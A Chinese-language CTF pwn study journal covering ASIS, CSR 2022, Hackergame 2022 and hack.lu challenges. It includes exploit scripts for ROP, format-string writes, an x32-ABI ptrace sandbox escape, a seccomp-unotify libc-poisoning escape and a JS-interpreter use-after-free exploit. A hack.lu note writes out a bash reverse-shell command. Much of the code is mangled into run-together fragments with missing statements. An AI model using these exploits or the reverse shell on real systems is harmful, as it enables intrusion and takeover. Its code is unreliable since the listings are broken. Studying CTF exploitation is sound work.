1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 from pwn import *'gnome-terminal' , '-x' , 'sh' , '-c' ]'debug' '/mnt/hgfs/ubuntu/ASIS/babyscan/bin/chall' )'65.21.255.31' ,13370 )'/mnt/hgfs/ubuntu/ASIS/babyscan/bin/chall' )'/mnt/hgfs/ubuntu/ASIS/babyscan/lib/libc.so.6' )b"size: " )str (0 ))"data: " )0x0000000000401433 b'a' *0x48 +p64(pop_rdi)+p64(elf.got["alarm" ])+p64(elf.plt["puts" ])+p64(0x401130 ) b'\x7f' )[-6 :].ljust(8 ,b'\0' ))-libc.sym["alarm" ]b"size: " )str (0 ))"data: " )0xe3b01 b'a' *0x48 +p64(ogg))
babyscan-2 src:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 #include <ctype.h> #include <stdio.h> #include <stdlib.h> #include <unistd.h> int main () char size[16 ], fmt[8 ], *buf;printf ("size: " );scanf ("%15s" , size);if (!isdigit (*size))puts ("[-] Invalid number" );exit (1 );char *)malloc (atoi(size) + 1 );printf ("data: " );snprintf (fmt, sizeof (fmt), "%%%ss" , size); scanf (fmt, buf);exit (0 );void setup (void ) stdin , NULL );stdout , NULL );stderr , NULL );180 );
exp: 来自r3kapig-Lotus
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 from pwn import *'gnome-terminal' , '-x' , 'sh' , '-c' ]'debug' '/mnt/hgfs/ubuntu/ASIS/babyscan2/bin/chall' )'/mnt/hgfs/ubuntu/ASIS/babyscan2/bin/chall' )'/mnt/hgfs/ubuntu/ASIS/babyscan2/lib/libc.so.6' )def Lotus_write (addr,content ):b"size: " )b'9$\x00\x00\x00\x00\x00\x00' +p64(addr)[:7 ])"data: " )"exit" ],p64(0x401256 )[:7 ])"atoi" ],p64(elf.plt["printf" ])[:7 ])b"size: " )b'1-%9$p+' )b'-' )int (r.recvuntil(b'+' )[:-1 ],16 )-0x9A154 b"data: " )b'a' )0xe3b01 "printf" ],p64(ogg)[:7 ])"libc_base: " +hex (libc_base))
readable 终于发现了这题目环境的用法, 先是build.sh编译一下然后再docker build, 然后deploy.py中有一句socat命令是在本地开一个端口接收exp文件, 保存为tempfile, 然后映射到docker中的/tmp/exploit, 继续启动docker, 完成权限设置之后执行/home/pwn/run. run设置了seccomp之后execve了exploit, 然后再怎么执行readme就是我们的事了.
solution 1 X32 ABI直接ptrace拿mmap的pie基址劫持write直接leak, 直接利用mmap系统调用时的地址信息打印出前0x2000的东西, 这样直接就可以发现flag.
这个编译起来不得使用32位? 试下. 还是得64位.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 #include <sys/ptrace.h> #include <sys/types.h> #include <sys/wait.h> #include <unistd.h> #include <stdlib.h> #include <fcntl.h> #include <stdio.h> #include <errno.h> #include <sys/personality.h> #include <sys/user.h> #include <sys/mman.h> unsigned long long base = 0 ;struct user_regs_struct *regs =NULL ;int main (int argc, char *argv[]) void *)0x233000 ,0x1000 ,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS,-1 ,0 );pid_t traced_process;long ins;char *argvs[] = {"/home/pipe/readme" ,NULL };int pid = fork();if (pid == 0 ) {0x40000209 ,PTRACE_TRACEME, 0 , 0 , 0 );"/home/pipe/readme" , argvs, NULL );puts ("exec failed" );return -1 ;NULL );while (1 ) {int blocked = 0 ;0x40000209 ,PTRACE_SYSCALL, pid, 0 , 0 );0 , 0 );0x40000209 ,PTRACE_GETREGS, pid, 0 , regs);if (regs->orig_rax == 10 && regs->rsi==0x1000 )printf ("Mmap Rdi:%08llx\nMmap Rsi:%08llx\nMmap Rdx:%08llx\n" ,regs->rdi,regs->rsi,regs->rdx);if (regs->orig_rax == 1 && regs->rdx == 0x10 ) {1 ;printf ("Rsi before:%08llx\n" ,regs->rsi);0x2000 ;printf ("Rsi after:%08llx\n" ,regs->rsi);0x40000209 ,PTRACE_SETREGS, pid, 0 , regs);0x40000209 ,PTRACE_SYSCALL, pid, 0 , 0 );0 , 0 );if (blocked) {regs->rax = 1 ; syscall(0x40000209 ,PTRACE_SETREGS, pid, 0 , regs); break ;}return 0 ;
真正的系统调用号保存在 /usr/include/x86_64-linux-gnu/asm/unistd_x32.h：
#ifndef _ASM_X86_UNISTD_X32_H #define _ASM_X86_UNISTD_X32_H 1 #define __NR_read (__X32_SYSCALL_BIT + 0) #define __NR_write (__X32_SYSCALL_BIT + 1) #define __NR_open (__X32_SYSCALL_BIT + 2) #define __NR_ioctl (__X32_SYSCALL_BIT + 514) #define __NR_readv (__X32_SYSCALL_BIT + 515) #define __NR_writev (__X32_SYSCALL_BIT + 516) #define __NR_recvfrom (__X32_SYSCALL_BIT + 517) #define __NR_sendmsg (__X32_SYSCALL_BIT + 518) #define __NR_recvmsg (__X32_SYSCALL_BIT + 519) #define __NR_execve (__X32_SYSCALL_BIT + 520) #define __NR_ptrace (__X32_SYSCALL_BIT + 521)
而__X32_SYSCALL_BIT的值为0x40000000, 所以上面的数值上就可以解释了.
int 0x80 和 syscall 的区别 (好吧跟这个没啥关系.
主要利用点在于x64下有一种x32 ABI模式, 能够在减小指针和地址空间开销的同时利用起64位cpu上多的寄存器和运算部件, 提高程序运行速度. 他的系统调用就如上面所示, 只要加上一个数值即可, 或者说是按位或(|). 而寄存器高32位的部分都被清空, 以此模拟32位运行状态.
还没有run过, 第二天环境弄一个小时没整好, 看来还是得靠docker. 终于知道了这一堆东西怎么用了.
不过为什么没法直接跑通? 看着挺好的呀, 但是看起来ptrace全都失败了, regs里面没有一点信息.
我还不知道在docker里面运行的程序如何调试.
ptrace真的fail了, 返回了一个-1. 继续查查errno看是什么. 是not implement. 不知道了. 只能一问队友.
crazyman说ubuntu18能行, 但是docker里面改成18.04并不可行. emmmmm?难道不是这样么?
22/11/14在编译linux时发现有一个选项是x32 ABI for 64 bit mode , 勾上了重新编译, 尝试了下能不能运行.
修改HOME路径, 再把readme重新编译成静态文件, 放到HOME中设置成其他用户只读, 忽略run.c(因为他只是限制了一下可用的系统调用)
还是遇到了很多问题.
使用busybox的linux还是有很多限制, 每个文件都得编译成静态文件, 使得本来是PIE的readme变成静态链接文件, 然后mmap调用似乎消失了, ptrace根本截取不到(???), 也没有strace看到底发生了什么.
而且静态链接也使得文件变得很大, 仅输出前面0x2000字节还是不够, 还得调整.
不过好在发现了这个方法确实可行 , 不过docker里面的系统似乎都没有加上这一个选项, 想来当时比赛时的环境可以吧. 不过明明都是同一个Dockerfile怎么还不一样呢.
solution 2 - intended one
given by the author
作者原话:
Intended way was using seccomp unotify to change libc binary
Linker loads libc, you set a hook for openat. And then use seccomp_setfd to send a poisoned libc
seccomp unotify: user notify, 可以做到在syscall的时候携带信息给supervisor(大多都是container应用), 让它来决定是继续执行syscall还是停止执行并返回特定数值.
流程:
solve.py上传了exploit, 然后exploit在docker里接受payload放到/tmp/payload.
exp使用UNIX domain socket建立程序间通信渠道.
装载sigchild signal的处理函数, 即退出程序.
fork出子进程, 一通prctl+install seccomp unotifier之后通过socket发送notifyfd, 再执行/home/pwn/readme.
(然后都是unotify supervisor的基本流程)
通过socket接受unotify fd. (这个流程也很长, 使用了recvmsg等一系列奇怪函数, 不管了.)
通过ioctl来轮询fd, 当readme openat的时候会被打断, 此时由父进程打开payload文件, 然后通过seccomp_notif_addfd来复制fd到子进程的fd列表之中, 由ioctl返回在子进程中最终打开的fd number, 最后response, 设置openat syscall的返回值为该fd number.
上面的流程是一个死循环, 由child exit到signal handler终止所有进程.
关键点:
UNIX domain socket or IPC socket
#include <sys/socket.h> int socket_family, int socket_type, int protocol);
其中socket_family=AF_UNIX, socket_type有三种(TCP UDP SCTP?)
send是fd和recvfd函数都是使用sendmsg来…..看不懂, 一堆宏定义, 反正知道他能通过socket fd来传递fd就行了.
seccomp unotify:seccomp(SECCOMP_SET_MODE_FILTER, SECCOMP_FILTER_FLAG_NEW_LISTENER, &prog);
因为glibc没有对seccomp wrap, 所以实际上是:
static int seccomp (unsigned int operation, unsigned int flags, void *args) return syscall(__NR_seccomp, operation, flags, args); }
第一个SECCOMP_SET_MODE_FILTER就是指把arg当成BPF指针来定义一个filter. 这个filter在fork clone execve的时候保留下来. 前提 是调用的线程必须在它的namespace里有CAP_SYS_ADMIN, 或者已经设置了no_new_privs位.
一般都关注后者, 也就是通过prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)设置. 这个process control函数配上这些参数能够限制execve执行setuid的程序, 否则通过execve执行setuid程序后装载一个不执行setuid()且返回0的filter时, 这样的程序会在没有真正drop privileges的情况下继续运行malicious commands.
而第二个参数flags要使用SECCOMP_FILTER_FLAG_NEW_LISTENER, 这样成功安装filter后，返回一个新的user-space notification file。(为文件描述符设置了“close-on-exec” flag。)当filter返回SECCOMP_RET_USER_NOTIF时，将向该fd发送通知。每线程最多只能装载一个带有这个flag的filter.
SECCOMP_IOCTL_NOTIF_ADDFD
The SECCOMP_IOCTL_NOTIF_ADDFD operation (available since Linux5.9) allows the supervisor to install a file descriptor into thetarget’s file descriptor table.
总之就是将symbol绑定到version node上, 一个symbol可以有多个version node, 最关键的是map file.
同时可以在库的源代码中添加绑定信息, 这样可以减少shared library maintainr的工作, 不过此时mapfile必须包括所有的version node, 也就是这个asm trick只是mapfile的补充.
经过测试, solution中的payload.c可以大幅度缩减, payload.map也可以删去2.34的定义:
puts完全没必要, 只要__libc_start_main被修改为write函数之后就已经达成目的.
源码中使用asm把__libc_start_main_impl当做__libc_start_main的alias,__libc_start_main就行了
头文件也没必要. 2.2.5也没必要. 为什么是这个版本号我也不知道.
exp: 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 318 319 320 321 322 323 324 325 326 327 328 329 330 331 332 333 334 335 336 337 338 339 340 341 342 343 344 345 346 347 348 349 350 351 352 353 354 355 356 357 358 359 360 361 362 363 364 365 366 367 368 369 370 371 372 #define _GNU_SOURCE #include <errno.h> #include <fcntl.h> #include <limits.h> #include <linux/audit.h> #include <linux/filter.h> #include <linux/seccomp.h> #include <signal.h> #include <stdbool.h> #include <stddef.h> #include <stdint.h> #include <stdio.h> #include <stdlib.h> #include <sys/ioctl.h> #include <sys/prctl.h> #include <sys/socket.h> #include <sys/stat.h> #include <sys/syscall.h> #include <sys/types.h> #include <sys/un.h> #include <unistd.h> #define errExit(msg) \ do \ { \ perror(msg); \ exit(EXIT_FAILURE); \ } while (0) static int sendfd (int sockfd, int fd) struct msghdr msgh ;struct iovec iov ;int data;struct cmsghdr *cmsgp ;union { char buf[CMSG_SPACE(sizeof (int ))];struct cmsghdr align ;NULL ;0 ;1 ;sizeof (int );12345 ;sizeof (controlMsg.buf);sizeof (int ));memcpy (CMSG_DATA(cmsgp), &fd, sizeof (int ));if (sendmsg(sockfd, &msgh, 0 ) == -1 )return -1 ;return 0 ;static int recvfd (int sockfd) struct msghdr msgh ;struct iovec iov ;int data, fd;ssize_t nr;union { char buf[CMSG_SPACE(sizeof (int ))];struct cmsghdr align ;struct cmsghdr *cmsgp ;NULL ;0 ;1 ;sizeof (int );sizeof (controlMsg.buf);0 );if (nr == -1 )return -1 ;if (cmsgp == NULL || cmsgp->cmsg_len != CMSG_LEN(sizeof (int )) ||return -1 ;memcpy (&fd, CMSG_DATA(cmsgp), sizeof (int ));return fd;static void sigchldHandler (int sig) puts ("Child exited" );static int seccomp (unsigned int operation, unsigned int flags, void *args) return syscall(__NR_seccomp, operation, flags, args);#define X32_SYSCALL_BIT 0x40000001 #define X86_64_CHECK_ARCH_AND_LOAD_SYSCALL_NR \ BPF_STMT(BPF_LD | BPF_W | BPF_ABS, (offsetof(struct seccomp_data, arch))), \ BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, AUDIT_ARCH_X86_64, 0, 2), \ BPF_STMT(BPF_LD | BPF_W | BPF_ABS, (offsetof(struct seccomp_data, nr))), \ BPF_JUMP(BPF_JMP | BPF_JGE | BPF_K, X32_SYSCALL_BIT, 0, 1), \ BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_KILL_PROCESS) static int installNotifyFilter (void ) struct sock_filter filter [] =0 , 1 ),struct sock_fprog prog =sizeof (filter) / sizeof (filter[0 ]),int notifyFd =if (notifyFd == -1 )"seccomp-install-notify-filter" );return notifyFd;static void closeSocketPair (int sockPair[2 ]) if (close(sockPair[0 ]) == -1 )"closeSocketPair-close-0" );if (close(sockPair[1 ]) == -1 )"closeSocketPair-close-1" );static pid_t targetProcess (int sockPair[2 ], char *argv[]) pid_t targetPid = fork();if (targetPid == -1 )"fork" );if (targetPid > 0 ) return targetPid;if (prctl(PR_SET_NO_NEW_PRIVS, 1 , 0 , 0 , 0 ))"prctl" );int notifyFd = installNotifyFilter();if (sendfd(sockPair[0 ], notifyFd) == -1 )"sendfd" );if (close(notifyFd) == -1 )"close-target-notify-fd" );puts ("Executing child" );1 );char *f = NULL ;"/home/pwn/readme" , &f, &f);exit (EXIT_SUCCESS);static void allocSeccompNotifBuffers (struct seccomp_notif **req, struct seccomp_notif_resp **resp, struct seccomp_notif_sizes *sizes) if (seccomp(SECCOMP_GET_NOTIF_SIZES, 0 , sizes) == -1 )"seccomp-SECCOMP_GET_NOTIF_SIZES" );malloc (sizes->seccomp_notif);if (*req == NULL )"malloc-seccomp_notif" );size_t resp_size = sizes->seccomp_notif_resp;if (sizeof (struct seccomp_notif_resp) > resp_size)sizeof (struct seccomp_notif_resp);malloc (resp_size);if (resp == NULL )"malloc-seccomp_notif_resp" );static void handleNotifications (int notifyFd) struct seccomp_notif_sizes sizes ;struct seccomp_notif *req ;struct seccomp_notif_resp *resp ;char path[PATH_MAX];for (;;)memset (req, 0 , sizes.seccomp_notif);if (ioctl(notifyFd, SECCOMP_IOCTL_NOTIF_RECV, req) == -1 )if (errno == EINTR)continue ;"\tS: ioctl-SECCOMP_IOCTL_NOTIF_RECV" );if (req->data.nr != __NR_openat)printf ("\tS: notification contained unexpected " "system call number; bye!!!\n" );exit (EXIT_FAILURE);struct seccomp_notif_addfd addfd ;0 ], "/tmp/payload" , req->data.args[2 ], req->data.args[3 ]);3 ;0 ;int a2 = ioctl(notifyFd, SECCOMP_IOCTL_NOTIF_ADDFD, &addfd);0 ;0 ;0 ;0 ;if (ioctl(notifyFd, SECCOMP_IOCTL_NOTIF_SEND, resp) == -1 )if (errno == ENOENT)printf ("\tS: response failed with ENOENT; " "perhaps target process's syscall was " "interrupted by a signal?\n" );else "ioctl-SECCOMP_IOCTL_NOTIF_SEND" );free (req);free (resp);exit (EXIT_FAILURE);static void supervisor (int sockPair[2 ]) int notifyFd = recvfd(sockPair[1 ]);if (notifyFd == -1 )"recvfd" );void readBinary () int sz, readed;printf ("size:" );scanf ("%d" , &sz);char *buf = malloc (sz);int f = open("/tmp/payload" , O_WRONLY | O_CREAT, 0777 );while (sz > 0 )0 , buf, sz);int main (int argc, char *argv[]) int sockPair[2 ];stdout , NULL );if (socketpair(AF_UNIX, SOCK_STREAM, 0 , sockPair) == -1 )"socketpair" );struct sigaction sa ;0 ;if (sigaction(SIGCHLD, &sa, NULL ) == -1 )"sigaction" );exit (EXIT_SUCCESS);
payload: 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 void __libc_start_main(){asm (".intel_syntax noprefix" );asm ("mov rax,1" );asm ("mov rsi,rdi" );asm ("mov rdi,1" );asm ("mov rdx,0x1000" );asm ("syscall" );
map: .2 .5 {
solution 3 - ?
team solution
#include <sys/prctl.h> int main (void ) 1 , 0 , 0 , 0 );"bash" , "bash" , "-c" , "LD_DEBUG=all sudo" , NULL );
然后呢? 没看懂
呃呃感觉是上一种方法的一个步骤,
LD_DEBUG能打印出ld在加载共享库时的信息, 包括符号信息.
PR_SET_NO_NEW_PRIVS让之后的exec执行的新程序无法通过简单的setgid或者修改文件权限获得新的权限.
jsy 最短的一个exp, 最长的有几千行不知道在写啥. 最短的也不知道在写啥.
发现了文档, 原来是一个js解释器, 是一个现成的项目. 那个patch是真是存在的一个漏洞吗? 这代码量也太大了….js也不怎么会…
patch里加的free可以double free，2.35的glibc，可以通过占位控制某个header实现任意地址读写
没有Buffer，可以用Array，header大小应该是0x90
Array被free时，貌似只有header被free了，body不会被free
@zanderdk的解释: Short explanation: We use quite to create a object of type JS_CCFUNCTION which will have c union type bellow:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 struct js_Object { char noTcacheOverwrite[0x18 ]; enum js_Class type ;int extensible;int count; union {struct {const char *name;int length;void *data;
js_CFunction function; is a function pointer. We then free this object (target in hax.js) but keep a refrence to this object and we allocate it back using:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 static void S_fromCharCode (js_State *J) int i, top = js_gettop(J);char * volatile s = NULL ;char *p;if (js_try(J)) {-1 ) * UTFmax + 1 );for (i = 1 ; i < top; ++i) {0 ;
then we partialy overwrite the function pointer with the addres of static void jsB_read(js_State *J) which will put the content of a file into a JS string. The problem here is the *p = 0; in the C above, as it will insert null terminator in the address. Sooo we just run it enough times for ALSR to pick a address with 0 at that position in the address. also runetochar do some utf8 magic to some of the bytes we put in if outside of ascii range. so prop a bit more than 255 actually.
exp: 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 JS_CCFUNCTION = 4 var a = "" ;for (var i = 0 ; i < 0x20 ; i++) {"\x08" ;var thingy = {};var dummy1 = {};var dummy2 = {};var dummy3 = {};var dummy4 = {};var target = quit;var over = "A" ;var a = ((target.length) & 0xffffff ) - 0x2c2 ;String .fromCharCode(0x010000 ,0x010000 ,0x010000 ,0x010000 ,0x010000 ,0x010000 ,0x41 ,0x41 ,0x41 ,0x010000 , 0x010000 , 0x010000 ,0x010000 , 0x010000 ,0x0800 , 0x43 , 0x43 , 0x43 ,0x43 ,0x43 ,0x43 ,0x43 ,0x43 ,0x43 ,0x41 ,0x41 ,0x41 ,0x41 ,0xff ,8 ) & 0xff ,16 ) & 0xff "/flag.txt" ));while (1 );
Escape maze 还没看过.
from pwn import *"65.21.255.31" ,34979 )b'0' while 1 :b'key number:' )print (u)b'\n' )[-2 ].split(b' ' )[-8 ].replace(b',' ,b'' )if nr!=r:else :b'\n' )[1 ].split(b' ' )[-1 ])
CSR 2022 PWNMEPLX
CSR 2022
┌──(root💀kali)-[/mnt/LearingList/CTF/PWNMEPLX]
这个是取绝对值的x64汇编写法:
.text:0000000000401336 8B 45 8C mov eax, [rbp+var_74]
简单的栈溢出覆盖返回地址居然因为<__vfscanf_internal+133>处的xmmword需要0x10字节对齐而出错…….
简单的不想多说. 但是还是做了好一会儿, 还在想是不是符号/浮点数的问题, 结果就是一个简单的后门栈溢出.
这个比赛的pwn题全都是签到, 差点意思.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 from pwn import *'./pwn.elf64' 'debug' #send string #recv one #recv n 0 if c == 0 :"chall.rumble.host" , 5415 )else :"./pwn.elf64" )'b ' *(112 +8 ) + pack(0x401348 , 64 )"-1" )
PWNFORTRESS
同上, 不过题目是rev+game. 基本不会
主要问题是明确了glibc版本, 但是ubuntu的2.3几之后的全都是用.zst压缩, dpkg无法解压, 改成了清华源中debian的glibc库, 然后dbg版本的包里面也没有带符号的库文件. 不知道怎么用了, 分析了半天glibc-all-in-one代码不知道怎么改, 索性就没有符号吧. 不过在ubuntu2022里直接运行.
debian glibc file catagory | tuna mirror site
不会做.
unintended solution:
breakpoint before the level is printed, make it print the last level instead, it will segfault, but the decoded map is in memory
随便看到一题都有三个标签, cry, misc, pwn, 没接触过的加密和杂项, 属实不会, 还有一些虚拟机逃逸加上什么RISC-JIT之类没听说过的技术. 到处都是知识盲区.
Hackergame 2022 简单题略过了, 不太想花时间. 能做的学不到东西, 能学到的基本不会做.
猫咪问答: 懒得做. 旅行图片: 社工懒得做. 纯耗时间.
签到: mousedown的事件监听的touchStart函数加上一个logpoint让lefttime不变
HeiLang: 无聊的语法转换
Flag自动机: 是window程序, 看了看IDA的反编译代码后发现有消息回调函数, 在cheat engine里让x, y变得不随机, 然后改一个变量进入flag生成.
One-byte-man 挺神奇的, 代码里面又是还没看的linux概念………
prctl参数PR_SET_CHILD_SUBREAPER: 设置进程树属性, 使得树中孤儿被收养到最近的设置了属性的 父进程处.只能通过 execve继承而非fork和clone.
认真看了下namespace的man page. CLONE_NEW*一系列flag.
user_namespace: A process’s user and group IDs can be different inside and outside a user namespace.
namespace是一个树状继承图. 像是setns和unshare和clone可以开辟新的子namespace
User and group ID mappings: uid_map and gid_map
root namespace的两个文件中可以见到0 0 4294967295, 第三个是有符号数的-1, 其实是指一个length, 这一段的uid都被map了. Since Linux 4.15每个进程可有340行映射.
不同namespace的process访问同一个process的uid_map文件可能会产生不同的结果.
因为该行是一个映射, 当访问文件在同一个namespace指内部uid -> 父space uid, 当在不同namespace时指内部uid -> 访问进程space uid
写入的程序必须在父space或者同一个space; 被映射的uid在进程space内也必须有map; 有相应的caps.
sudo echo '0 1000 1\n1000 0 1' > /proc/121634/uid_map
The /proc/[pid]/setgroups file
setgroups() sets the supplementary group IDs
gid_map没设置以及上面的文件显示”deny”时, 不能用setgroups()
gid_map设置之后(setgroups已确定是否启用)不能通过写入任何字符 来改变.
在Linux 3.19被加入. 解决了”rwx—rwx”文件的问题. 即换到other user反而提权了, by denying any pathway for an unprivileged process to drop groups with setgroups(2).
/proc/sys/kernel/overflowuid: 未map时尝试读取uid会显示的数字. 在uid_map第二个field没有map时也可能显示4294967295.权限检查时uid会转换到initial user namespace中的uid.
capabilities:
进程有四个set, 文件有p和i加上一个effective bit.
四个set看了老半天不知道实际是如何操作的, 只有effective和bounding能看明白. bounding应该是个全集, 不过也能够对其进行删减, 意义不明. permitted set应该为该进程允许获得的caps. ambient更是完全不懂 .
下图是执行execve时cap的变化情况. 注意到当文件effective bit为1时文件的permitted加入了effective set, 这也是一些blog演示ping文件的利用之处, 即cap_net_raw+ep; 这和ambient有啥不同?
credentials
看到还有个Filesystem user ID and filesystem group ID, 只能说不知道有什么用, 只看到是和supplementary group IDs一起用于判断文件access permissions.
Supplementary group IDs: 一个用户属于一个primary group, 同时又属于多个Supplementary group, 这样就不用切换了, 主要是省事. 在id命令第一个group后面跟着的东西就是.
capsh getcap setcap getpcaps 和 grep Cap /proc/self/status
看不见的彼方 额, 先看rust去了.
hack.lu 2022 ordersystem 一眼看到python中socket.socket() 先查一下以前没注意的东西.
setsockopt使用场景: link
reuseaddr/reuseport: 查询过程源码 reuseport版本演进
bind到 0.0.0.0, 127.0.0.1 localhost 有何区别
在docker环境上遇到一点小问题, 重新build了一下. woc为什么链接没反应?? 好吧重启解决问题了. service docker restart
反弹shell
bash -i >& /dev/tcp/192.168.1.102/7777 0>&1 （实际的命令解析为：将目标主机的bash shell以-i交互式的方式，标准输出+错误输出重定向到192.168.1.102:7777，而在192.168.1.102:7777的标准输入命令会重定向到192.168.1.102:7777的标准输出中）
简言而知，就是将目标主机的标准输入、标准输出、错误输出全都重定向到攻击端上
python的bytecode真没了解过, 要暴毙了. 这能上哪儿搜. 跟cpython有挺大关系. 又查到了python vm. 又是python的fundamental, 我要疯了怎么又来这么多的东西. 一看就是一星期的量ahhhhhhhhhhhhhhhhhhhhh
bytecode relevant:
RIOT RIOT src off-by-one
placemat
看到一个meson.build文件, 才知道这是一个和cmake同类型的build scripts generation. Wiki在此
居然是32位程序, 除了PIE其他都开了.
woc为什么在ubuntu上运行不了?? 2.34用allinone装上之后都没有了符号链接, 这能用???? 在ubuntu2004 22204里运行都给我说no such file or directory. 差不多得了.
搞不定这个环境. 理解不能, 这c++的库都是用的啥? glibc不能直接用吧. 果然还是放弃这种比赛题比较实际, 大半天啥也没试出来. 又被crazyman叫来看看, 我…还是试试从源码编译吧…
学了两下meson: meson setup [build directory] cd [build directory] && meson compile
每个build directory都有各自的配置, 分成一个个文件夹便于测试.
meson compile == ninja, 因为meson的默认backend是ninja.
发现缺失bits/c++config.h, 然后准备安装g++-multilib, 然后又发现kali里的libc6-dev版本过低导致依赖的libglib2.0-dev也较低, 结果是libglib2.0-dev无法安装更新版本. 执行pc apt --only-upgrade install libc6-dev后解决. 最终执行apt install g++-multilib.
怎么调试C++里面的类和一些变量布局我还得熟悉下.
看了看C++17的optional. post 就像是刚刚看的rust里的Option<T>.
额还得看看c++编译器是怎么实现class的. 找个文章 .
可能有的问题:
Human::requestName中scanf("%s", this->name);没有限制长度. 鬼知道溢出到了什么地方. 好了现在知道了.
还有个strcpy有个非常没用的栈溢出.
flag的获取必须是赢过bot.
然后队里别人先做出来了(不出所料), 是伪造虚表然后装成bot, 自己赢过自己获取flag. 我先调试看看c++的class怎么布局 的.
首先研究构造函数, 发现Human human声明语句即构造函数调用语句, 参数为栈上指针, 大小为ebp-0x20的位置, 这个就是this指针. 然后继续调用父类构造清空name成员, name成员由this来定位. 不过name不是this指向的空间, 前四字节是用来标识子类的一串数字(也许有什么特殊含义). 好吧原来是虚表地址, 对象的虚表指针用来指向自己所属类的虚表，虚表中的指针会指向其继承的最近的 一个类的虚函数 . 地址到IDA里看看更多信息.
Player这个基类的两个函数加析构都是虚函数, 但是析构没有定义, 所以在虚表里面是NULL .
超出作用域的class直接调用析构函数, 如局部class在函数末尾的析构.
注意到文件里除了vtable for Bot之类的还有
果然还是ABI标准更全面一些. 省的自己在这儿乱研究. 标准真的太长了. stackoverflow
继续研究:
在startSingleplayer()函数栈帧里存储有两个玩家的object, 以虚指针开头总共4(vptr)+20(name)=24=0x18字节, 初始name被填满空字符, 输入玩家名称时可以填满20字节达到leak之后的数据的目的. scanf会加空字符, 必须修改后才能leak.
human是栈上靠近栈底的变量, 在[ebp-0x20]的位置, 0xc(12)处还有个canary, 栈底八字节没啥用处
takeTurn中又是%s, 输出长度没有限制.
重大发现, 这个程序是32位的, 所以要用32位库. 真是好一个重大发现, 难怪patchelf和ubuntu2204(默认没有32位运行环境)都不行. 好的下了debian32位2.35libc成功了.
绝了, 自己编译的做不出来, 但是源文件是可以的, 因为两个class离canary有更大的距离, 因为Game class放到了两个Player class的后面, 而Game前几个成员变量是player opponent之类的, 可以解决scanf默认添加的空字符问题. emmmm这样究竟是怎么出题的, 是巧合还是能控制变量在栈上的位置? 但是源文件调试是真的不爽, 什么符号都没有. 难不成要ida修复符号然后远程调试? 想想都麻烦. 而且有些输入不是我能打出来的. 还是pwntools吧.
我是不明白为什么random::bit会一直只选第一个玩家, 完全没有随机性可言. 但是自己编译的程序就可以. (????????) 只是我运气好罢了. 居然是下面这个问题的原因. 为什么都定义了%20s了但是在printPlayerNames还是会打印出超过20个字符???????什么魔法啊这是.printf("%20s", buf);限制的只是对齐宽度, 如果字符串更长就会忽略这个对齐. %20s用在scanf里才是限制输入的string, 然而在printf里如果要限制输出长度则要用%.20s, 或者是在参数中提供长度%.*s(还可以是某个位置的参数, 具体见printf手册)(左对齐是%-20s)
在congratulate中看到typeidc++ abi , 然而内容太多我抓不住重点. 又找了一个series blog . 真的太多了, 但我真的想看懂ABI.清楚 还是有例子的好些, 一堆文字真的很难看懂.
c++ abi (vtables & RTTI)
_ZTV is a prefix for vtable, _ZTS is a prefix for type-string (name) and _ZTI is for type-info.
重要的概念
primary base class : For a dynamic class, the unique base class (if any) with which it shares the virtual pointer at offset 0.proper base class : 继承树中一个类的所有父类secondary virtual table : The instance of a virtual table for a base class that is embedded in the virtual table of a class derived from it.The primary virtual table can be viewed as two virtual tables accessed from a shared virtual table pointer. virtual table group : The primary virtual table for a class along with all of the associated secondary virtual tables for its proper base classes.
vtable components
Virtual Base (vbase) offsets are used to access the virtual bases of an object.The offset to top holds the displacement to the top of the object from the location within the object of the virtual table pointer that addresses this virtual table
The typeinfo pointer points to the typeinfo object used for RTTI
The virtual table address point points here
Virtual function pointers . Each pointer holds either the address of a virtual function of the class, or the address of a secondary entry point that performs certain adjustments before transferring control to a virtual function.
vtable construction 详细讲了proper base class在各种情况下应该怎样构建vtable.
